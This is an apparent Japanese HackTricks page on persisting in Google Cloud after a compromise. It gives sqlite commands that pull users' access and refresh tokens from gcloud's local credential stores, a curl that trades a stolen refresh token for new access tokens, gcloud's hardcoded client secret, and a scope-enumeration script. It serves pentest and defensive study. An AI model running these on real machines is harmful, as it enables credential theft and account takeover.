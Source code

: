 # GCP - 非サービス永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

- **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
- **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする**
- **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリに提出する

</details>

これらは、何らかの方法で GCP 資格情報または GCP 環境で実行されているマシンを侵害した場合に便利なテクニックです。

## トークンハイジャック

### 認証済みユーザートークン

ユーザーの **現在のトークン** を取得するには、次のコマンドを実行できます:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

このページで、**gcloudを使用してこのトークンを直接使用する方法**を確認してください：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセス トークンを生成する詳細**を取得するには、次の手順を実行します：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`**と**`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**にリフレッシュトークンを見つけることも可能です。

**リフレッシュトークン**、クライアントID、クライアントシークレットを使用して新しいリフレッシュされたアクセストークンを取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**管理者** > **セキュリティ** > **Google Cloud セッション制御** で管理でき、デフォルトでは16時間に設定されていますが、期限切れにならないように設定することもできます：

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### 認証フロー

`gcloud auth login` のようなものを使用する場合の認証フローは、ブラウザでプロンプトが開き、すべてのスコープを承認した後、ブラウザは次のようなリクエストをツールによって開かれた http ポートに送信します：
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
次に、gcloudは、いくつかのハードコードされた`client_id` (`32555940559.apps.googleusercontent.com`) と **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) を使用して、**最終的なリフレッシュトークンデータ** を取得します。

{% hint style="danger" %}
localhostとの通信がHTTPであることに注意してください。したがって、データを傍受してリフレッシュトークンを取得することが可能ですが、このデータは1回だけ有効です。そのため、これを行うのは無駄であり、代わりにファイルからリフレッシュトークンを読む方が簡単です。
{% endhint %}

### OAuthスコープ

すべてのGoogleスコープは、[https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) で見つけることができます。または、次のコマンドを実行して取得できます：

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

**`gcloud`**が使用して認証するアプリケーションがサポートできるスコープを確認するには、次のスクリプトを使用できます：
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
実行した後、このアプリがこれらのスコープをサポートしていることが確認されました：
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
### サービスアカウント

認証済みユーザーと同様に、サービスアカウントの**秘密鍵ファイルを侵害**すると、**通常は好きなだけアクセスできます**。\
ただし、サービスアカウントの**OAuthトークンを盗む**とさらに興味深いことができます。デフォルトではこれらのトークンは通常1時間だけ有効ですが、**被害者が秘密のAPIキーを削除しても、OAuthトークンは有効のままになります**。

### メタデータ

明らかに、GCP環境で実行されているマシン内にいる限り、**メタデータエンドポイントに連絡してそのマシンにアタッチされたサービスアカウントにアクセスできます**（このエンドポイントでアクセスできるOAuthトークンは通常、スコープによって制限されています）。

### 対処法

これらのテクニックに対するいくつかの対処法は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
